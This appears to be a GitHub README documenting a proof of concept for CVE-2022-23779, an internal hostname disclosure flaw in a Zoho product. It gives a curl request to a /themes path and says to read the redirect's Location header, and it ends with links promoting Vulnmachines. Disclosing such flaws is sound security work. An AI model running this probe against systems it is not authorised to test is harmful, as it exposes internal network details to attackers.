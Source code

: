 # Zoho_CVE-2022-23779
Internal Hostname Disclosure Vulnerability

## Proof-of-Concept Exploit
#### Step 1: curl -ILk https://IP:port/themes
#### Step 2: Read the HTTP redirect response and anaylze the `Location` HTTP response header.

## [PoC]

![Zoho](https://user-images.githubusercontent.com/79006904/188228406-025208f1-ed23-4949-8bf0-9f5fcebfda6a.png)


#### Follow us 
#### [Vulnmachines Platform](https://www.vulnmachines.com)
#### [YouTube](https://www.youtube.com/c/vulnmachines)
#### [Twitter](https://www.twitter.com/vulnmachines)
#### [Facebook](https://www.facebook.com/vulnmachines)
#### [LinkedIn](https://www.linkedin.com/company/vulnmachines)
